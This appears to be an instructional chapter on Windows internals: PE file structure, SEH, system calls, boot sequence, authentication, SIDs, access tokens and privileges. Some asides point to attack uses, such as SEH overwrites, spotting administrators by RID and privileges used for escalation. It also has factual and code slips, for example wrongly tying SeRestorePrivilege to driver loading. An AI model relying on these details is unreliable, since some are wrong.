The Windows Executable File Format is called a Portable Executable(PE). PE files are relocatable, meaning they can be loaded at different virtual addresses each time they are loaded. In this section, we will elaborate on how executables are loaded into virtual memory, the various section of the executable, and some of the security measures put in place to protect data and code within these sections.
Base Address and RVA
The Base Address is the preferred virtual memory address where a module is compiled to be loaded. It is used by the linker as a reference point for all internal addressing.
On 32-bit (x86) Windows, the virtual address space is limited to 4GB and the preferred base address for an executable is 0x00400000. If a DLL is compiled to be loaded at this address, and an executable is already there, a collision occurs.
On 64-bit (x86-64) Windows, the virtual address space is theoretically 15 exabytes (2⁶⁴ bytes) large in volume. A preferred base address for an executable is 0x0000000140000000.
In order to make code flexible and independent of its final load address, all internal pointers and jump targets are stored as an offset from the module's preferred base address, being the Relative Virtual Address(RVA). The final, absolute virtual address of any object in a module is always calculated at runtime:
Absolute Virtual Address = Module Load Address + RVA
Image Sections
PE files are highly structured and composed of distinct Image Sections, each with a specific purpose and its own set of memory permissions. Common sections include:
.textorCODE: Contains the executable machine code. Has Read and Execute (RX) permissions.rdata: Contains read-only data, such as constant strings and the import address table. This section has Read-Only (R) permissions..data: Contains initialized global and static variables, Has RW permissions..reloc: Contains the Base Relocation Table, used by the OS loader to fix absolute pointers.
The RVA of an object is always an offset within its section, and the OS loader uses the PE headers section table to map this RVA to the correct virtual memory location.
Section Alignment
The file has a different alignment on disk than it does when loaded into memory, a design choice made to optimize for both the disk space and memory usage. There are two primary alignment values found in the PE header:
-
FileAlignment: This value dictates how each section is aligned on disk. Typically, this is a small numeric value, which is also a power of 2 (i.e., 512 bytes (0x200))- For instance, if a section's raw size is 1200 bytes, it will be padded to 1536 bytes (the next multiple of 512). The OS loader reads the file from disk using these alignments.
-
SectionAlignment:This value dictates how each section is aligned in virtual memory. Typically, this is a large numeric value, whcih is a power of 2 (i.e. 4096 bytes (0x1000)). When the sections are mapped into cirtual memory by the OS, each section must begin on a page boundary.- For instance, if a section's size in memory is 5000 bytes, it will occupy two pages (8192 bytes), even if it only uses a small portion of the second page.
The distinct alignments between the disk and virtual memory allow the PE file to be compact on disk (saving storage and download. time) while ensuring that, once loaded, its sections are perfectly aligned with the memory manager's page-based system. An OS's memory manager works with memory pages, not individual bytes, so aligning sections to page boundaries makes it highly efficient to apply memory permissions (R/W/X) to each section. Also consider, when statically analyzing a file, the RVA is determined by the Section Alignment of the executable, not the File Alignment.
The Critical Role of Relocations
The need for relocations is driven by two primary reasons:
- Reason 1: Avoiding DLL Collisions (Primarily 32-bit) In the early days of Windows, DLLs were often compiled with a preferred base address. When two different DLLs had the same preferred address, a DLL Collision occured. The OS loader was then forced to find a new, available virtual memory space for one of them. Since the code in the relocated DLL was compiled with absolute addresses that are now wrong, a relocation was necessary to fix all internal pointers.
- Reason 2: Enabling ASLR and Security (Primarily 64-bit) Address Space Layout Randomization (ASLR) is a security feature that randomizes the base address of every module each time a program runs. The randomness makes it impossible for an attacker to reliably predict the location of code or data before runtime. ASLR requires every single module to go through the relocation process, fixing all of its internal absolute pointers to point to the correct, randomly located targets.
#include <iostream>
// Assume this program is compiled with a preferred base address of 0x00400000
// This is a global variable. It resides in the '.data' section
int global_data = 100;
// This pointer will be initialized with the ABSOLUTE dadress
// of 'global_data'. It will need to be fixed at runtime
int* global_data_pointer = &global_data
int main(){
// The linker has hardcoded the virtual address of 'global_data'
// into the 'global_data_pointer' variable. If the program is
// loaded at a different address (due to relocation), this pointer's
// value will be wrong.
// The OS loader will find this pointer's location in
// the '.reloc' section and fix its value at runtime before
// the 'main' function starts.
// Let's assume the program's preferred base address is `0x00400000` and
// 'global_data' has an RVA of '0x1000'.
// The linker will initialize 'global_data_pointer' to '0x00401000'
// When the program is loaded at a random base addres, say '0x7b000000',
// the loader will 'relocate' the pointers value
// New Value = 0x7b000000 + (0x00401000 - 0x00400000) = 0x7b001000
// The loader will change the value stored in 'global_data_pointer' to
// 0x7b001000 before the program starts executing 'main()'
// The program can now safely dereference the pointer
std::cout << "The value pointed to by global_data_pointer is: " << *global_data_pointer << std::endl;
return 0;
}
* and & In C-like languages:
* is the dereference operator. It gets the value stored at the address a pointer is referencing.
& is the "address of" operator. It gets the address of some variable stored in memory.
Sections of an Image
DOS Header
The DOS Header ensures backward compatibility and a graceful error message system on systems that don't support the PE format, "This program cannot be run in DOS mode".
typedef struct _IMAGE_DOS_HEADER{
WORD e_magic; // Magic number: "MZ"
[...trunc...]
LONG e_lfanew; // File address of the new PE header
}IMAGE_DOS_HEADER, *PIMAGE_DOS_HEADER
The most important fields of the DOS Header are:
e_magic: the first two bytes of the DOS header, which must equalMZ(0x5A4D)e_lfanew: A pointer to the start of theIMAGE_NT_HEADERSstructure (the PE Headers)
PE Header
The PE Header is composed of metadata at the beginning of Windows programs which provides information about the file's contents, architecture, required libraries, and entry point for the operating system to load and run the program. The PE Header is composed of a signature, a FileHeader and an Optional Header. The IMAGE_NT_HEADERS structure serves as the main header, and its C structure is defined to accommodate both 32-bit and 64-bit systems:
typedef struct _IMAGE_NT_HEADERS64{
DWORD Signature;
IMAGE_FILE_HEADER FileHeader;
IMAGE_OPTIONAL_HEADER64 OptionalHeader;
}IMAGE_NT_HEADERS64, *PIMAGE_NT_HEADERS64;
typedef struct _IMAGE_NT_HEADERS {
DWORD Signature;
IMAGE_FILE_HEADER FileHeader;
IMAGE_OPTIONAL_HEADER32 OptionalHeader;
}IMAGE_NT_HEADERS32, *PIMAGE_NT_HEADERS32;
The _IMAGE_NT_HEADERS* structure references two data structures which contain the actual PE header, being IMAGE_FILE_HEADER and IMAGE_OPTIONAL_HEADER*:
typedef struct _IMGAE_FILE_HEADER {
WORD Machine;
WORD NumberOfSections;
[...trunc...]
}IMAGE_FILE_HEADER, *PIMAGE_FILE_HEADER;
typedef struct _IMAGE_OPTIONAL_HEADER64 {
WORD Magic;
[...trunc...]
DWORD NumberofRvaAndSizes;
IMAGE_DATA_DIRECTORY DataDirectory[IMAGE_NUMBEROF_DIRECTORY_ENTRIES];
}IMAGE_OPTIONAAL_HEADER64, *PIMAGE_OPTIONAL_HEADER64;
DataDirectory is an array of additional data structures that are stored inside the PE header including Export Table, Resource Table, Thread Local Storage Table, and more. It is due to this critical data structure that the Optional Headers are not optional for Windows PE files. More on this later.
Imports and Exports
Dynamic Link Libraries are a repository of executable code and data that can be shared among multiple programs. They can either be statically or dynamically linked to a compiled program. When statically linking, all required library code is copied directly into the final executable at compile time. When dynamically linking, the compiler includes only import information in the executable's PE header. The required DLLs are then loaded by the OS loader at runtime.
Imports and Exports are the mechanisms that enable the dynamic linking process of executables.
For instance, consider an executable that references functions in other executables while it is being compiled and linked:

Diagram of the C/C++ Compilation Process preprocessing -> compiling -> assembling -> linking
The compiler and linker have no idea of the imported functions' actual addresses. These are determined at runtime. To address this problem, the linker creates a special import table that lists all the functions imported by the current module, by their names. The import table contains a list of modules that a module utilizes and the list of functions called within each of those modules. When the current module is loaded, the loader loads every module listed in the import table and identifies the address of each function listed. These addresses are found by going over the imported module's export table, which contains the names and RVAs of every exported function.
When the current module needs to call into an imported function, the call typically looks like this:
call [Some Address]
Where SomeAddress is a pointer into the executable import address table (IAT). When the module is linked, the IAT is nothing but a list of empty values. When the module is loaded, the linker resolved each entry in the IAT to point to the actual function in the imported module.

Diagram of PE Imports and Exports
PE File Directories
As discussed before, DataDirectory is a data structure stored in the IMAGE_OPTIONAL_HEADER section of the PE. This is a crucial structure that the OS loader uses to find essential information.
Here is a breakdown of key PE file directories:
Export Table: A list of names and RVAs for all exported functions in the current module.- Associated Data Structure:
IMAGE_EXPORT_DIRECTORY DataDirectoryEntry [idx]:IMAGE_DIRECTORY_ENTRY_EXPORT[0]
- Associated Data Structure:
Import Table: A list of the names of modules and the functions used within those modules by the current module.- Associated Data Structure:
IMAGE_IMPORT_DESCRIPTOR DataDirectoryEntry [idx]:IMAGE_DIRECTORY_ENTRY_IMPORT[1]
- Associated Data Structure:
Resource Table: Points to the executable's resource data, such as icons, images, menus, and cursors.- Associated Data Structure:
IMAGE_RESOURCE_DIRECTORY DataDirectoryEntry [idx]:IMAGE_DIRECTORY_ENTRY_RESOURCE[2]
- Associated Data Structure:
Base Relocation Table: A list of addresses that must be adjusted in the event of relocation- Associated Data Structure:
IMAGE_BASE_RELOCATION DataDirectoryEntry [idx]:IMAGE_DIRECTORY_ENTRY_BASERELOC[5]
- Associated Data Structure:
Debugging Information: Debugging info for the executable, often in the form of a link to an external symbol file.- Associated Data Structure:
IMAGE_DEBUG_DIRECTORY DataDirectoryEntry [idx]:IMAGE_DIRECTORY_ENTRY_DEBUG[6]
- Associated Data Structure:
Thread Local Storage Table: Points to a special section that contains thread-local variables.- Associated Data Structure:
IMAGE_TLS_DIRECTORY DataDirectoryEntry [idx]:IMAGE_DIRECTORY_ENTRY_TLS[9]
- Associated Data Structure:
Load Configuration Table: Contains configuration elements for special security features that list legitimate exception handlers.- Associated Data Structure:
IMAGE_LOAD_CONFIG_DIRECTORY DataDirectoryEntry [idx]:IMAGE_DIRECTORY_LOAD_CONFIG[10]
- Associated Data Structure:
Bound Import Table: An import related table used to confirm that pre-resolved addresses into an exporting module are still valid.- Associated Data Structure:
IMAGE_BOUND_IMPORT_DESCRIPTOR DataDirectoryEntry [idx]:IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT[11]
- Associated Data Structure:
Import Address Table: A list of entries for each imported function, which are initialized at load time to the actual addresses of the imported functions.- Associated Data Structure: A List of 32-bit Pointers
DataDirectoryEntry [idx]:IMAGE_DIRECTORY_ENTRY_IAT
Input and Output
The I/O System is a combination of kernel components that manage the device drivers running in the system and the communication between applications and device drivers. The design of the system is modular, allowing for immersive flexibility and security.
First, we have the User-Mode Interface. At this level, I/O requests are handled by documented APIs. For instance, when a process needs to read from a file, it doesn't directly access the hard drive. Instead, it makes a high-level API call, like ReadFile() or WriteFile(), which in turn, makes a system call to the kernel via ntdll.dll and the KiSystemService trap.
Once the request enters the kernel, control is passed to the I/O manager. The I/O Manager is a central component of the Windows kernel that is responsible for all I/O-related operations and acts as a dispatcher, taking a user's request and sending it to the correct device driver. The I/O Manager builds a data structure called an I/O Request Packet (IRP). An IRP is a formal request that describes the I/O operation (i.e., read, write), which file to access, and how many bytes to transfer. The I/O Manager creates an IRP and populates it with information form the user-mode request. Then, the IRP is sent down a chain of device drivers known as the driver stack. This allows for the modular design. For instance, a request to read from a file on a USB thumb drive would first go to the file system driver (ntfs.sys), then the volume manager driver, and finally to the USB host controller driver. Each driver on the stack handles its part of the request.
There are optional drivers that may sit between other drivers on the driver stack, called Filter Drivers. Filter Drivers are inserted in the driver stack to inspect, modify, or block IRPs as they pass through. They can be attached to any part of the driver stack. For instance, an antivirus program may insert a filter driver into the file system driver stack to intercept all IRPs and scan the file contents for malware before allowing the IRP to proceed.
At the bottom of the driver stack is the bus driver, which takes the IRP and sends specific commands to the physical hardware to facilitate the request. Direct Memory Access (DMA) is a crucial performance optimization method which transfers data directly between the device and the application's memory, without constantly involving the CPU.
When the hardware operation is complete, it generates an interrupt. The I/O Manager processes this interrupt, marks the IRP as complete, and the results are passed back up the driver stack. The IRP is returned to the user-mode application, which can continue its execution.
Structured Exception Handling (SEH)
Structured Exception Handling is a robust, language-independent mechanism in Windows that allows applications and the operating system itself to gracefully respond to and recover from unexpected events, called exceptions. Exceptions can range from hardware-generated faults to software-defined errors. They are events that occur during a programs execution that disrupt the normal flow of instructions.
- Hardware Exceptions: Detected by the CPU, including:
Access Violation(0xC0000005): Attempting to read from or write to an invalid or protected memory address.Divide by Zero(0xC0000094): An arithmetic operation where the divisor is zero.Illegal instruction(0xC000001D): Attempting to execute an invalid CPU instruction.
- Software Exceptions: Explicitly generated by an application or the operating system (i.e.,
RaiseException()API Call) and can be used for custom error reporting.
32-bit SEH
On 32-bit systems, SEH is implemented on top of a singly linked list of exception handler records that resides directly on each threads' stack. The Thread Information Block (TIB) is a per-thread data structure containing vital information about the thread. Typically, the TIB is referenced by some offset of the FS registers. The TIB can be used to reference the address of the head of the Exception Handler List.
The Exception Handler List is a singly linked list of EXCEPTION_REGISTRATION_RECORDs, which are pushed onto the stack by functions that contain SEH blocks (i.e., __try/__except). It takes on the following form:
typedef struct _EXCEPTION_REGISTRATION_RECORD {
struct _EXCEPTION_REGISTRATION_RECORD *Next;
PEXCEPTION_ROUTINE Handler;
} EXCEPTION_REGISTRATION_RECORD;
Where:
Next: A pointer to the previousEXCEPTION_REGISTRATION_RECORDon the stack, forming the chainHandler: A pointer to the specific exception handler function (the code within the__exceptblock) that should be executed if any exception occurs within the associated__tryblock's scope.
When a function containing a __try block is entered, a new EXCEPTION_REGISTRATIN_RECORD is created on the stack, the Next pointer is set to the current value of FS:[0] (which points to the previous handler on the stack), and FS:[0] is updated to point to the new record, making the new record the head of the exception handler chain.
If an exception occurs, the Operating System walks this linked list, starting from the head at FS:[0], checks each handler to see if it can handle the exception and if a handler is found it is executed. If not, the search continues until the end of the list is reached. This is referred to as Stack Unwinding.
This stack-based approach is vulnerable to buffer overflow attacks (See Appendix B: Manually Writing Shellcode for Windows for more details). An attacker could overwrite a stack buffer to corrupt the EXCEPTION_REGISTRATION_RECORD, redirecting the Next pointer or the handler address to a malicious location and taking control of the program's execution flow.
64-bit SEH
64-bit SEH is table based. Instead of using the stack, the compiler generates static, read-only tables that describe the exception handlers and stack unwinding information for each function. These tables are stored in the executable's data sections (.pdata and .xdata).
There is no dynamic linked list and no manipulation of segment registers (i.e., FS or GS). The process of entering a __try block incurs almost no runtime overhead because no data is pushed onto the stack.u
When an exception occurs, the operating system's exception dispatcher analyzes the call stack. For each function on the stack, it consults the pre-generated exception tables to determine the function's structure and any associated exception handlers. Then, it unwinds the stack by virtually reversing the function calls, restoring register states and executing the appropriate handler if one is found.
This table-based model provides more security by preventing reads to the tables and only uses computing resources when an exception is thrown.
The GS segment register is used to access per-thread data. The TIB, which is pointed to by GS:[0], contains a pointer to the PEB.
The Hardware Abstraction Layer
The Hardware Abstraction Layer (HAL) is the kernel-mode component that isolates the operating system from platform-specific hardware details by providing a uniform interface to interrupts, timers, processors, and low-level hardware mechanisms. It can be found at C:\Windows\System32\hal.dll.
Whenever a device raises an interrupt, the following process occurs:
-
The Hardware Signals the Interrupt Controller
- When a device (like the keyboard or network card) has data ready, it sends an electrical signal to the Interrupt Controller (usually the APIC - Advanced Programmable Interrupt Controller). The hardware doesn't know what Windows or drivers are. It only knows how to pulse a wire or send a message over the PCIe (Peripheral Component Interconnect Express). The APIC gathers these physical signals and prioritizes them so that the CPU isn't overwhelmed.
-
The HAL Translates It Into a Logical Interrupt
- Different motherboards use different wiring for interrupts. The HAL maps these physical hardware lines to a Global System Interrupt (GSI). This ensures that the Windows kernel doesn't have to be rewritten for every different type of motherboard (Intel, ARM, AMD). Instead, it waits for the HAL to report which interrupts have occurred.
-
The Kernel Dispatches the Interrupt
- Once the HAL identifies the interrupt, the kernel looks up the appropriate function in the Interrupt Descriptor Table (IDT). The kernel handles the Context Switch as well. It pauses whatever the current user operation is (i.e., browsing the web) and saves whatever work has been done so the CPU can focus on the hardware event. Then, it dispatches control to the specific Interrupt Service Routine registered by the device driver.
-
The Driver Handles the Device Event
- The Device Driver finally executes, which can be broken up into two functions:
- The Interrupt Service Routine (ISR): Acknowledges the hardware and quickly clears the interrupt so the CPU can go back to work.
- The Deferred Procedure Call (DPC): A mechanism that lets high-priority tasks quickly finish their critical work and schedule less urgent tasks for later execution at a lower priority, preventing system stalls and maintaining responsiveness. Ensures the system remains responsive and doesn't lock up while processing one device's data. It is used by driver to handle heavy processing after an interrupt is acknowledged.
- The Device Driver finally executes, which can be broken up into two functions:
The Boot-Up Process
Phase 1: The Hardware-Firmware Handshake
- Power-On Self-Test (POST): When the power button is pressed, the computer's motherboard runs a hardware check, the POST, to ensure that components, such as the CPU, RAM, and GPU are functioning.
- Firmware Loading: After the POST, the motherboard's firmware (
BIOSorUEFI) takes control. It's main job is to locate and load the first piece of software from the storage device. - Bootloader Execution: The firmware reads a small, initial program, called the bootloader, from a designated sector on your hard drive. The bootloader is the first executable to run on the machine and is primarily responsible for starting the Operating System.
Phase 2: The Kernel-Mode Boot
- Loading the Kernel: The bootloader loads the kernel executable (
ntoskrnl.exe) into memory and transfers control to it. It is now the only application running on the system. - Kernel initialization: The kernel begins its own setup, initialinig device drivers, core data structures, and other key components. This includes the:
Memory Manager: Establishes the physical and virtual memory spaces for the entire system.Object Manager: Creates the initial objects that represent system resources, including the first process objects.Process Manager: Prepares the environment for process creation.
Phase 3: User-Mode Genesis
- Session Manager (
smss.exe) Launch: The kernel's initialization routine launches the Session Manager Subsystem (smss.exe), the first user-mode process on the entire system, which all other user-mode processes can be traced back to. - Building the First Processes: As
smss.exelaunches its child processes, the kernel's subsystem performs a series of operations for each one:Object Manager: Creates a new Process Object for each child process (i.e.,winlogon.exe,csrss.exe) and gives each process its own dedicated Process Handle Table.Memory Manager: Where the Virtual Address Space is created for each new process. The Memory Manager uses VAD Trees to organize these virtual address spaces. It then maps Virtual Pages to Physical Frames in RAM, creating the process's Working Set. This ensures each process has the memory it needs to run, even though they can't access each other's memory directly.
- Connecting to the Kernel: These initial processes begin making requests to the kernel, via
ntdll.dll.
Phase 4: The Final Steps to User Interaction
- User Login:
winlogon.exehandles the login screen. Once the user successfully authenticates,winlogon.exestarts the user's shell, typicallyexplorer.exe. This is the application that give you your desktop, taskbar, and Start Menu. - The
CreateProcessAPI:explorer.exe, and many other applications can now use theCreateProcessAPI to create new processes, initializing the process initialization sequence.
Users and Privileges
Operating system authorizations are designed to handle multiple users with multiple roles and permissions. The abstraction of user roles and permissions on a system is set up and facilitated by a system called a protection ring, which specifies limits and enforces the functionality of users on a system and their corresponding access to resources.
A Protection Ring is a hardware-enforced mechanism on many CPU architectures that provides different levels of access to system resources. The rings are arranged in a hierarchy, with the most privileged level being Ring 0 and the least privileged level being Ring 3:

Diagram of how Protection Rings are organized
Kernel-Mode is synonymous with Ring 0. It is where the core of the OS resides, including ntoskrnl.exe, hal.dll (Hardware Abstraction Layer), and kernel-mode drivers like win32k.sys.
User-Mode is synonymous with Ring 3, where user applications and user-mode components (i.e., winlogon.exe) reside. It exists for untrusted processes, which should be strictly regulated by the operating system.
Modern CPUs also support additional execution states, which are unofficially referred to as Ring -1 (Hypervisor Mode), Ring -2 (System Management Mode), and Ring -3 (Platform Security Processor), all of which have greater control of and access to system resources than the installed OS. We touch on this more later.
Transitioning from Ring 3 to Ring 0
A program must use a special instruction to trap into the kernel:
SYSENTER(Newer 32-bit Systems): The modern, fast method for making a system call within a 32-bit application.- Before executing
SYSENTER, the user-mode code prepares the system call by loading specific registers with data:- The system call number is placed into the
eaxregister - The address of the return code is placed into the
ecxregister - The stack pointer is placed in the
edxregister - Function arguments will typically be pushed onto the user-mode stack from right to left (standard
__stdcallor__cdeclconvention used in Windows APIs, though this may vary).
- The system call number is placed into the
- Before executing
SYSCALL(64-bit Systems): The instruction used on modern 64-bit processors.- The system call number is placed in the
RAXregister RCXcontains the first parameter to the kernel functionRDXcontains the second parameterR8andR9contain the 3rd and 4th respectively- Additional parameters are pushed onto the stack, from right to left.
- The system call number is placed in the
INT 0x2E(Older 32-bit systems): BeforeSYSENTER, the standard method for a system call was a software interrupt instruction. We reviewed this previously.
Transitioning from Ring 0 to Ring 3
SYSEXIT(32-bit systems): The counterpart toSYSENTER. It takes a return address and a stack pointer from the specified registers (ecxandedx), and transitions the CPU back to Ring 3, returning control to the user-mode process.SYSRET(64-bit systems): The counterpart toSYSCALL. It loads the return address and stack pointer from saved registers, switches the CPU back to Ring 3, and resumes execution in user mode.
Protection Rings and the System Call Process
The protection rings are the fundamental enforcer of the System call process, ensuring that the transition is secure and controlled. Here is the process:
-
User-Mode Preparation and the
SYSCALLTrap (Ring 3->0): A user application calls a high-level API (i.e.,CreateFile), which is a wrapper for a low-level Native API function inntdll.dll(NtCreateFile). This function prepares for the system call by loading the unique system call number into the appropriate register (eax/rax), loading the function parameters into the proper location based on the calling convention (__cdecl/__fastcall), and executing the system call instruction (SYSCALL,SYSENTER, etc.). The system call instruction traps the CPU intoRing 0and transfers control to a predefined entry point in the kernel. -
The Kernel's System Service Dispatcher (Ring 0): The first piece of kernel code to execute after a
SYSCALLtrap is a small, highly optimized routine called the System Service Dispatcher. On 64-bit and modern 32-bit systems, this isKiSystemCall64. On older 32-bit systems, this wasKiSystemServiceandKiFastSystemCall. The core responsibilities of this dispatcher are to: _ Save State: Create a trap frame on the kernel stack, which saves all of the user-mode register values, including the IP and SP, so the system can return to the exact point in the user application that made the call. _ Validate the System Call: Check the system call number to ensure it is valid and within the expected range. * Determine the Target Function:KiSystemCall64uses the system call number to find the address of the actual kernel function to execute, using theKiServiceTable. -
The
KiServiceTableand the System Service Descriptor Table (Ring 0)
The KiServiceTable is the primary System Service Dispatch Table. It is a large array of pointers to actual kernel functions that implement the Native APIs. These functions reside in ntoskrnl.exe and win32k.sys. The system call number passed in the RAX/EAX register is used as an index into this array. The dispatcher uses this number to lookup the correct function pointer in the KiServiceTable.
Previously, the location of the KiServiceTable was accessible through the KeServiceDispatcherTable. When a system call was made, KiFastSystemCall would query KeServiceDispatcher to identify the location of the KiServiceTable, allowing it to index the table and locate the appropriate kernel function in memory. Windows 10+ systems have updated this, and now the location of KiServiceTable is not exposed through any exported data structure. The location is randomized and hidden to prevent easy access from reverse-engineering tools and malware.
So, on modern 64-bit systems, KiSystemCall64 uses a System Service Descriptor Table in a random, hidden location to query KiServiceTable, which contains pointers to the memory addresses of the kernel functions. 64-bit systems also implement a KeServiceDescriptorTableShadow file, which is documented, but hidden using Kernel Address Space Layout Randomization. It is used primarily for graphical and windowing-related system calls (i.e. from win32k.sys, win32kbase.sys and win32kfull.sys). KeServiceDescriptorTableShadow points to a separate dispatch table, W32pserviceTable, which contains functions implemented in the Win32k family.
In order to determine which dispatch table the system call number indexes, the system call number is analyzed and split into 3 section:
31 14 13 12 11 0
+--------------------------------+---+--+---------------+
| Reserved/Ignored | TS | Service Index |
+--------------------------------+---+--+---------------+
<------------------------------> <----> <-------------->
~18 Bits 2 Bits 12 Bits
(Bits 12 & 13)
- Reserved/Ignored
- Bits 14-31 ≈18 bits
- Reserved or ignored.
- Service Table Index (TS)
- Bits 12-13 =2 bits
- Selects one of the four possible System Service Dispatcher Tables.
00:KiServiceTable01:W32pServiceTable10:Configuration Service Table(a special subset ofw32pServiceTable)11: Reserved\Ignored
- Service Index (Func. ID)
- Bits 0-11 =12 bits
- The specific index (function ID) into the chosen service table.
For Example:
NtCreateFile has a system call number of 0x55 on Windows 10.
// In binary, 0x55 is 010100000101b:
31 12 0
+------------------+--+------------+
|000000000000000000|00|010100000101|
+------------------+--+------------+
<----------------> <> <---------->
Reserved TS Call Num
As we can see, the TS bits are set to 0, which informs KiSystemCall64 that this system call number is indexed within KiServiceTable.
- Execution and Return (Ring 0->3)
Once the System Service Dispatcher (i.e.,
KiSystemCall64,KiFastSystemCall, etc.) finds the correct pointer, it jumps to the kernel function, executes the service, and returns control back to the System Service Dispatcher, which restores the saved user-mode state from the trap frame, and usesSYSRETorSYSEXITto transition the CPU back to Ring 3.
User Authentication, Identification, and Privileges
User Authentication
User Authentication describes the process of verifying a user is who they claim to be. On Windows, it is a multi-step process involving several key components and protocols:
winlogon.exe: A critical Windows process responsible for managing the secure attention sequence (Ctrl+Alt+Del) and initiating the user logon process.- Presents the user logon interface
- Collects the user's credentials (username and password)
- Passes the user credentials to the Local Security Authority Subsystem Service (LSASS).
- Found at
C:\Windows\System32\winlogon.exe
- Local Security Authority Subsystem Service (LSASS): A protected subsystem that enforces the security policy on Windows systems.
- When it receives the user's credentials from
winlogon.exe, it performs the actual authentication by comparing the provided information against a stored database.
- When it receives the user's credentials from
- Security Accounts Manager (SAM): For local accounts, the LSASS service validates the credentials against the SAM database, a registry hive (
(HKEY_LOCAL_MACHINE\SAM)->C:\Windows\System32\config\SAM) that stores user account and group information, including password hashes. - Active Directory: For domain-joined machines, the authentication request is sent to a Domain Controller, which holds the centralized Active Directory database.
User Identification
Once a user is authenticated, the system identifies them using a unique Security Identifier (SID). An SID is a variable-length, cryptographically unique value that identifies a user, group, or computer account on a Windows system. It is created when the account is first created and exists as a core part of the system's security architecture, used by the operating system for access control decisions.

Example of an SID
- SID String:
Sindicates that the value is an SID. - Revision Level: Indicates the version of the SID structure. It has been
1sinceWindows NT 3.1in 1993. - Authority ID: Speficies who created or granted the SID, as follows:
NULL: 0World Authority: 1Local Authority: 2Creator Authority: 3Non-unique Authority: 4NT Authority: 5
- Subauthority Identifier: A series of values that uniquely identify the account within the authority.
- Relative Identifier (RID): The final part of the SID that makes it unique. Windows will assign the following unique RIDs to specific users:
Administrator: 500Guest User: 501Domain Administrator: 512Domain Computer: 515
You can enumerate the SIDs on a Windows system using:
$ wmic useraccount get name,sid
Pay attention to the RIDs, as they can be used to quickly identify administrators and guest accounts.
Access Tokens
After successful authentication, LSASS generates an Access Token, which is a kernel object created by the Security Reference Monitor (SRM) that represents the security context of a principal. It contains all of the necessary information for the operating system to determine a user's rights and permissions. When a user runs a process, the process is assigned a copy of their access token, the user's SID, the SIDs of all the groups the user is a member of, a list of the user's privileges (i.e., SeShutdownPriilege), their Integrity Level and the Discretionary Access Control List (DACL) being used. A lot of the information within the access token can be viewed using the following command:
$ whoami /all
All child processes inherit a copy of the access token from their parent process, which is how the security context is maintained throughout a user's session.
Authentication Protocols
New Technology LAN Manager (NTLM)
- How it Works:
- Client sends authentication request to server
- Server sends client a challenge (random number)
- Client encrypts the challenge using a hash of its password (NT Hash)
- Client sends encrypted challenge to server
- Server decrypts the response payload using the clients hash and compares the retrieved value with the challenge to verify authenticity.
- NTLMv2: An updated version of NTLM that upgrades security in a number of ways, including stronger cryptographic hashing and a timestamp in the challenge response mechanism to mitigate replay attacks. Still less secure than Kerberos.
Kerberos
- Kerberos: The default and preferred authentication protocol for Active Directory environments.
- How it Works:
- A user authenticates with the Key Distribution Center (KDC)
- The KDC issues a ticket-granting ticket (TGT) to the client to the client.
- The user uses the TGT to request Service Tickets to access different resources without re-entering their password.
- Kerberos uses mutual authentication and tickets are timestamped. More information on Kerberos can be found in
Appendix C: A Primer on Kerberos.
Privileges: Granular Control over System Operations
A Privilege represents a specific right that allows a security principal to perform a system-wide operation that goes beyond standard file or object access permissions.
A Security Principal is an identity that can be authenticated and. authorized to access resources. This is someone or something the OS can assign permissions to, including:
- User Accounts
- Groups
- Computer Accounts
- Service Accounts
- Managed Service Accounts Each security principal has a unique SID and they are represented by access tokens
Privileges are powerful rights that are distinct from ACL permissions on individual objects. ACLs may dictate who can read/write to a specific file, but a privilege dictates who can perform a broader system action (i.e., loading a driver, shutting down the computer, etc.)
Some common privileges are:
SeTimeZonePrivilege: Grants a user the right to change the system's time zoneSeShutdownPrivilege: Allows a user to shut down or restart the local computerSeDebugPrivilege(Highly Sensitive): Grants the right to debug processes owned by other users or the operating system itself. Often leveraged for privilege escalation.SeTakeOwnershipPrivilege(Highly Sensitive): Allows a user to take ownership of any securable object, regardless of existing ACLs. Can be used to bypass security on files, registry keys, etc.SeRestorePrivilege(Extremely Sensitive): Grants the right to load and unload device drivers. Extremely powerful, as loading a malicious kernel driver grants complete control over the system (Ring 0 access).SeCreateTokenPrivilege(Extremely Sensitive): Allows a process to create a primary token or an impersonation token, effevtively enabling the creation of arbitraty access tokens to impersonate any user with any privilege and any domain group membership. God-mode privilege for identity manipulation.
Enabling Privileges Within a Process's Access Token
Even if a user has been granted a privilege, a process running under that user's context does not automatically use that privilege. By default, most privileges in a process's access token are in the disabled state. To use a privilege, a process must explicitly enable it within its own access code, using the AdjustTokenPrivileges() API function:
- Open Process Token: The process first needs to open its own access token, using
OpenProcessToken. - Lookup Privilege LUID: The processor needs to find the Local Unique Identifier (LUID) for the desired privilege (i.e.,
SeDebugPrivilege) usingLookupPrivilegeValue- The LUID is a locally unique 64-bit identifier used to refer to a privilege
- Adjust Token Privileges: Finally, the process calls
AdjustTokenPrivileges, by passing the LUID and specifying that the privilege should be enabled (SE_PRIVILEGE_ENABLED). - Failure if Not Granted: If the privilege has bot been granted to the security principal in the first place,
AdjustTokenPrivilegeswill fail, indicating that the process does not have the right to enable it.
Verifying Privileges
When a process attempts to perform a system-related operation that requires a privilege, the operating system (or the specific kernel component handling the request) will verify that the necessary privilege is enabled in the caller's access token. The kernel function that performs the desired operation (i.e., ZwCreateDebugObject for debugging) will check the caller's access token for the appropriate privilege (i.e., SeDebugPrivilege) has the SE_PRIVILEGE_ENABLED flag set.
Privilege Data Structures
- LUID This structure defines a 64-bit value that is guaranteed to be unique on the local system until it is rebooted. It is used to represent privileges internally.
typedef struct _LUID {
DWORD LowPart;
LONG HighPart;
} LUID, *PLUID;
- LUID_AND_ATTRIBUTES This structure specifies a LUID and its attributes (i.e., whether the privilege is enabled or disabled)
typedef struct _LUID_AND_ATTRIBUTES {
LUID Luid;
DWORD Attributes;
} LUID_AND_ATTRIBUTES, *PLUID_AND_ATTRIBUTES
Some common Attributes flags are:
SE_PRIVILEGE_ENABLED: The privilege is enabledSE_PRIVILEGE_REMOVED: The privilege was removedSE_PRIVILEGE_USED_FOR_ACCESS: The privilege was used to gain accessSE_PRIVILEGE_ENABLED_BY_DEFAULT: The privilege is enabled by default
- Token_Privileges
This structure contains an array of
LUID_AND_ATTRIBUTESstructures, representing a set of privileges with an access token. This is the structure used withAdjustTokenPrivileges
typedef struct _TOKEN_PRIVILEGES {
DWORD PrivilegeCount;
LUID_AND_ATTRIBUTES Privileges[ANYSIZE_ARRAY];
}TOKEN_PRIVILEGES, *PTOKEN_PRIVILEGES
Discovering and Manipulating User Privileges
- Viewing Privileges in Your Current Process Token
$ whoami /priv
